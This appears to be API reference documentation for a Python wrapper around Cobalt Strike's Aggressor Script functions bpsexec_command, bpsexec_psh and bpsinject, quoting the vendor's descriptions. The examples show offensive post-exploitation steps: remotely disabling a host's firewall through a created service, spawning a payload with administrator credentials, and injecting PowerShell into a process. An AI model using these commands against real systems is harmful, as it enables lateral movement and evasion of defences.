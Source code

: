 
## bpsexec_command
```python
bpsexec_command(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to run a command on a remote host. This function creates a service on the remote host, starts it, and cleans it up.
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - the target to run the command on
    $3 - the name of the service to create
    $4 - the command to run.
    Example
    # disable the firewall on a remote target
    # beacon> shieldsdown [target]
    alias shieldsdown {
        bpsexec_command($1, $2, "shieldsdn", "cmd.exe /c netsh advfirewall set allprofiles state off");
    }


## bpsexec_psh
```python
bpsexec_psh(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to spawn a payload on a remote host. This function creates a service to run a PowerShell one-liner.
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - the target to spawn a payload onto
    $3 - the listener to spawn
    Example
    brev2self();
    bloginuser($1, "CORP", "Administrator", "toor");
    bpsexec_psh($1, "172.16.48.3", "my listener");


## bpsinject
```python
bpsinject(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Inject Unmanaged PowerShell into a specific process and run the specified cmdlet
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - the process to inject the session into
    $3 - the process architecture (x86 | x64)
    $3 - the cmdlet to run
    Example
    bpsinject($1, 1234, x64, "[System.Diagnostics.Process]::GetCurrentProcess()");
